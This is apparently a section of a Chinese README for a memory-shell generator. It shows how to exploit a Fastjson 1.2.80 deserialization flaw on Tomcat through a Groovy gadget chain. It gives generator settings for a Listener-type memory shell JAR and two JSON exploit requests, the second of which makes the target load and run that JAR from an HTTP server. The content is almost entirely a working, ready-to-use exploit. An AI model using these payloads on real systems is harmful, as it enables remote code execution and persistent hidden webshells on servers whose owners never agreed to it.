 ### 05 反序列化漏洞 (Fastjson)

本地测试环境
- Tomcat v8.5.83
- Fastjson v1.2.80 反序列化漏洞
- Groovy v3.0.8


1、选择 输出格式为 JAR，生成 payload

```text
server_type=Tomcat
shell_type=Listener
# 选择利用链为 Fastjson+Groovy
gadget_type=FastjsonGroovy
format_type=JAR
output_path=/tmp/fj/
```

![](./img/1708847745212.png)

2、利用 groovy 利用链打内存马

第1个请求

```json
{
    "@type":"java.lang.Exception",
    "@type":"org.codehaus.groovy.control.CompilationFailedException",
    "unit":{}
}
```

第2个请求

```json
{
    "@type":"org.codehaus.groovy.control.ProcessingUnit",
    "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
    "config":{
        "@type":"org.codehaus.groovy.control.CompilerConfiguration",
        "classpathList":"http://127.0.0.1:8888/NetworkUtils.jar"
    }
}
```

